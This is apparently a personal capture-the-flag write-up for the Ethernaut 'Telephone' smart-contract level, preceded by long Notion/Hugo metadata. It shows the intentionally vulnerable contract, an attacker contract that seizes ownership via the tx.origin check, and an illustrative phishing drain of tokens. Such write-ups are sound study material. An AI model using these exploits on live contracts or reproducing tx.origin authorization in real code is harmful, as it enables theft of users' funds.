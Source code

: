 ```yaml
---
title: "Telephone"
date: "2024-01-16"
lastmod: "2024-02-12T14:41:00.000Z"
draft: false
difficulty: "⭐"
prev: "Coin-Flip-c27578d40d2f427d968d5623d7000dab"
weight: 4
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/4"
next: "Token-4a8cb8765f8c412190f2db4a7989f9b5"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "8b2069f0-beb0-45b6-9400-a28665c1d56c"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-12T14:41:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel4.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "FPYQ"
        name: "⭐"
        color: "gray"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Coin-Flip-c27578d40d2f427d968d5623d7000dab"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Coin-Flip-c27578d40d2f427d968d5623d7000dab"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-01-16"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 4
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/4"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Token-4a8cb8765f8c412190f2db4a7989f9b5"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Token-4a8cb8765f8c412190f2db4a7989f9b5"
          href: null
    type:
      id: "s%7DKc"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "docs"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "docs"
          href: null
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Telephone"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Telephone"
          href: null
  url: "https://www.notion.so/Telephone-8b2069f0beb045b69400a28665c1d56c"
  public_url: null
UPDATE_TIME: "2024-02-13T10:44:50.064Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


Claim ownership of the contract below to complete this level.


Things that might help

- See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```


This is one is pretty straight forward, here is the attacker contract we can deploy:


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
  function changeOwner(address _owner) external;
}

contract CoinFlipAttack {

   Telephone telephone;

  constructor(address target) {
    telephone = Telephone(target);
  }

  function attack() public {
    telephone.changeOwner(msg.sender);
  }
}
```


While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).


An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.

```text
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}

```

1. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

```text
function () payable {
  token.transfer(attackerAddress, 10000);
}

```

1. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.
